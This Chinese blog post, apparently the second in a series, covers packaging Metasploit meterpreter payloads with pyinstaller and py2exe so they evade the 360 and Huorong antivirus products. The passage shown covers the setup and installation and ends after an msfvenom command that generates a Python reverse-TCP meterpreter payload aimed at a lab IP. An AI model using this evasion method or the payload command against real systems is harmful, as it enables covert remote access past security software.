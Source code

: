 # MSF免杀360+火绒上线(二)


<meta name="referrer" content="no-referrer" />

## 前言

这是一个免杀系列文章。

因为自己二进制方面就是个弟弟，所以并不敢冒然称之为教程，只是记录自己在免杀过程中的各种坑以及效果对比。

其实各种办法已经在大佬们的文章中多多少少都有提到过，但是大多数都是讲述一下思路后一笔带过，然而实现的过程中往往会有各种坑。所以想着写一个系列文章，能够让像我这样的WEB选手可以用最简单的办法快速BypassAV。

记录的过程也是自己提高的过程，如果有好的思路可以联系我跟我一起交流，如果有说的不对的地方还望不吝赐教。

本文主要讲利用pyinstaller以及py2exe进行免杀。

## 正文

### 测试环境

系统环境：kali，win7 (x64)

测试杀软： 360+火绒 防护全开

免杀工具： msfvenom py2exe  pyinstaller

注：为了模拟真实环境，360跟火绒全部开启文件云上传。

文中测试方法如果没有特殊说明均为防护状态全开情况下静默上线。

### 安装过程

以下环境均为python2

```
pip install py2exe
pip install pyinstaller
```

pyinstaller直接安装失败，搜了一下需要去官网下载后然后手动install

[http://www.pyinstaller.org/downloads.html](http:_www.pyinstaller.org_downloads)

下载到本地后解压，然后通过管理员模式打开命令窗口，用 cd 命令切换至 pyinstaller的解压路径，然后运行 `python setup.py install`

### python的meterpreter

#### reverse_tcp

msf生成payload

```
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.145.128 lport=8888 -f raw
```
